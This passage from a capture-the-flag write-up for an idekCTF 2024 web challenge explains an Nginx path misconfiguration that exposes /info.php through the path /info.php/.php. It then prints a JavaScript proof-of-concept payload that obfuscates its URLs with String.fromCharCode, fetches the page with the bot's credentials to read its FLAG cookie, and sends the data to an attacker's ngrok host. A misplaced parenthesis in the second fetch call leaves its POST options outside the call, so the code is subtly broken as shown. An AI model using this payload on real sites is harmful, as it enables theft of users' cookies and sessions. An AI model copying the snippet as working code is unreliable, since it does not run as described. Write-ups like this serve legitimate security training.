 With that said, this `location` directive only allows client IP address `127.0.0.1` to be able to access `/info.php`.

Hmm... No wonder why we're getting HTTP status code "403 Forbidden", because our client IP address is not `127.0.0.1`.

In the second `location` directive, it uses modifier `~`, which is **using regular expression (case-sensitive) to find URL that ends with `.php`**. If it matches, Nginx will use [module `ngx_http_fastcgi_module`](http://nginx.org/en/docs/http/ngx_http_fastcgi_module.html) to execute PHP script via [PHP FPM](https://www.php.net/manual/en/install.fpm.php) (FastCGI Process Manager).

Huh? So **Nginx will parse our URL to PHP FPM if the URL ends with `.php`**?

Therefore, we can execute PHP script `/info.php` via this path: **`/info.php/.php`**.

In the above path, **Nginx will see `.php` doesn't exist, which falls back to the first occurrence of the found file**!

> Note: For more details, you can read [this StackExchange post](https://security.stackexchange.com/questions/177354/turned-on-cgi-fix-pathinfo-still-dangerous-in-nginx).

Let's try that:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/idekCTF-2024/images/Pasted%20image%2020240819174215.png)

Nice! It worked!

## Exploitation

Armed with the above information, we can exfiltrate the bot's `FLAG` cookie via two steps:
1. Send a GET request to `/info.php/.php` to retrieve the cookie's value.
2. Send a request with the `FLAG` cookie to our attacker server.

Before we do that, in the `Enhanced_Trim` function, it also replaces the character `/`, which means we'll need to work around for the URLs.

To do so, we can base64 encode and decode our payload, then use the JavaScript `eval` function to execute our payload. Alternatively, we can use the `String` object's static method `fromCharCode` to convert ASCII code into ASCII characters.

Here's the Proof-of-Concept JavaScript payload:

```javascript
// http://idek-hello.chal.idek.team:1337/info.php/.php
const targetUrl = String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 105, 100, 101, 107, 45, 104, 101, 108, 108, 111, 46, 99, 104, 97, 108, 46, 105, 100, 101, 107, 46, 116, 101, 97, 109, 58, 49, 51, 51, 55, 47, 105, 110, 102, 111, 46, 112, 104, 112, 47, 46, 112, 104, 112);
// https://aaa-123-456-789-123.ngrok-free.app
const attackerUrl = String.fromCharCode(104, 116, 116, 112, 115, 58, 47, 47, 97, 97, 97, 45, 49, 50, 51, 45, 52, 53, 54, 45, 55, 56, 57, 45, 49, 50, 51, 46, 110, 103, 114, 111, 107, 45, 102, 114, 101, 101, 46, 97, 112, 112);

fetch(targetUrl, {
        credentials: 'include'
    })
    .then(response => response.text())
    .then(data =>
        fetch(attackerUrl), {
            method: 'POST',
            body: JSON.stringify({
                text: data
            })
        }
    );
```
